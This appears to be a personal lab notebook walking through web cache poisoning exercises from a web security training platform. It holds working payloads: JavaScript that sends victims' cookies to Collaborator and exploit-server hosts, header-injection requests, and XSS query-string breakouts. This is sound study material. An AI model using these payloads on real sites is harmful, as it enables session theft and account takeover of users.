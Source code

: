 ___

Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response.
If you got only tracking.js without X-Cache - no cache poisoning here.

![[Pasted image 20240808103007.png]]

If you got both file and header, the first thing you should try is to inject your exploit server into **Host:** or **X-Forwarded-Host:** headers and check them in response

![[Pasted image 20240808103015.png]]

You got the poisoned cache with X-Forwarded-Host? Cool, now go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: `document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')`. Poison web cache with your server and wait for victim's cookies.

```js
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
```

# Web cache poisoning with an unkeyed header

The application supports the use of a custom HTTP header to override the Host header, and uses a cache that can be manipulated into saving responses that have been influenced by this header.  
  
Burp added the following headers to the request:  
  
X-Forwarded-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Forwarded-Server: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com


![[Pasted image 20240808105803.png]]

## Cookie steal

X-Forwarded-Host: exploit-0ab30085047ba7ec862a98ec018d0091.exploit-server.net

Exploit server: 
	File: /resources/js/tracking.js
	Body: document.location='http://00ytfwduj1605olk3s3bahg31u7mvb.oastify.com/?cookies='+document.cookie;

![[Pasted image 20240808112148.png]]


# Web cache poisoning with an unkeyed cookie

![[Pasted image 20240808152709.png]]

```js
test"-alert(1)-"test
```

![[Pasted image 20240808152936.png]]

# Web cache poisoning with multiple headers

![[Pasted image 20240809035334.png]]

The `Location` header shows that you are being redirected to the same URL that you requested, but using `https://`

![[Pasted image 20240809035608.png]]

> On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. In body write `alert(document.cookie)` script.

```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
```

To check that the response was cached correctly, right-click on the request in Burp, select "Copy URL", and load this URL in Burp's browser.


# Targeted web cache poisoning using an unknown header

X-Forwarded-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Forwarded-Server: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net

Vary: User-Agent

```html
<img src="http://7fnahm68mm5got179axb1rv59wfn3c.oastify.com/" />
```

User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Change User-Agent on the request
![[Pasted image 20240809114403.png]]

# Web cache poisoning via an unkeyed query string

utm_content=yui1kx7r00
Origin: x
```js
/?cb=1244&utm_content=vaina'/><script>alert(1)</script>
```

```js
/?utm_content='/><script>document.location="https://OASTIFY.COM?c="+document.cookie</script>
```

# Web cache poisoning via an unkeyed query parameter

```js
/?utm_content=123'/><script>alert(1)</script>
```

# Parameter cloaking

Param Miner extension doing a `Bulk scan > Rails parameter cloaking scan` will _**identify**_ the vulnerability automatically. Manually it can be identified by adding `;` to append another parameter to `utm_content`, the cache treats this as a single parameter. This means that the extra parameter is also excluded from the cache key.

```js
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```
